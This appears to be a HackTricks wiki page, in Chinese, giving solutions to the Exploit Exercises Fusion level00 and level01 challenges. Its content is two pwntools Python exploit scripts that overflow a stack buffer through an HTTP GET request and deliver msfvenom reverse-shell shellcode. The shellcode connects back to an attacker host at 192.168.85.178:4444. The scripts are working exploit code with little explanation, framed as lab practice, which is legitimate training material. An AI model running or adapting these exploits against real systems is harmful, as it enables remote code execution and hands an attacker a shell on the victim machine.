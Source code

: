 {% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}


# Level00

[http://exploit-exercises.lains.space/fusion/level00/](http://exploit-exercises.lains.space/fusion/level00/)

1. 获取修改 EIP 的偏移量
2. 将 shellcode 地址放入 EIP
```python
from pwn import *

r = remote("192.168.85.181", 20000)

buf = "GET "            # Needed
buf += "A"*139          # Offset 139
buf += p32(0xbffff440)  # Stack address where the shellcode will be saved
buf += " HTTP/1.1"      # Needed
buf += "\x90"*100       # NOPs

#msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.85.178 LPORT=4444 -a x86 --platform linux -b '\x00\x2f' -f python
buf += "\xdb\xda\xb8\x3b\x50\xff\x66\xd9\x74\x24\xf4\x5a\x2b"
buf += "\xc9\xb1\x12\x31\x42\x17\x83\xea\xfc\x03\x79\x43\x1d"
buf += "\x93\x4c\xb8\x16\xbf\xfd\x7d\x8a\x2a\x03\x0b\xcd\x1b"
buf += "\x65\xc6\x8e\xcf\x30\x68\xb1\x22\x42\xc1\xb7\x45\x2a"
buf += "\x12\xef\xe3\x18\xfa\xf2\x0b\x4d\xa7\x7b\xea\xdd\x31"
buf += "\x2c\xbc\x4e\x0d\xcf\xb7\x91\xbc\x50\x95\x39\x51\x7e"
buf += "\x69\xd1\xc5\xaf\xa2\x43\x7f\x39\x5f\xd1\x2c\xb0\x41"
buf += "\x65\xd9\x0f\x01"

r.recvline()
r.send(buf)
r.interactive()
```
# Level01
```python
from pwn import *

r = remote("192.168.85.181", 20001)

buf = "GET "            # Needed
buf += "A"*139          # Offset 139
buf += p32(0x08049f4f)  # Adress of: JMP esp
buf += p32(0x9090E6FF)  # OPCODE: JMP esi (the esi register have the address of the shellcode)
buf += " HTTP/1.1"      # Needed
buf += "\x90"*100       # NOPs

#msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.85.178 LPORT=4444 -a x86 --platform linux -b '\x00\x2f' -f python
buf += "\xdb\xda\xb8\x3b\x50\xff\x66\xd9\x74\x24\xf4\x5a\x2b"
buf += "\xc9\xb1\x12\x31\x42\x17\x83\xea\xfc\x03\x79\x43\x1d"
buf += "\x93\x4c\xb8\x16\xbf\xfd\x7d\x8a\x2a\x03\x0b\xcd\x1b"
buf += "\x65\xc6\x8e\xcf\x30\x68\xb1\x22\x42\xc1\xb7\x45\x2a"
buf += "\x12\xef\xe3\x18\xfa\xf2\x0b\x4d\xa7\x7b\xea\xdd\x31"
buf += "\x2c\xbc\x4e\x0d\xcf\xb7\x91\xbc\x50\x95\x39\x51\x7e"
buf += "\x69\xd1\xc5\xaf\xa2\x43\x7f\x39\x5f\xd1\x2c\xb0\x41"
buf += "\x65\xd9\x0f\x01"

r.send(buf)
r.interactive()
```
{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
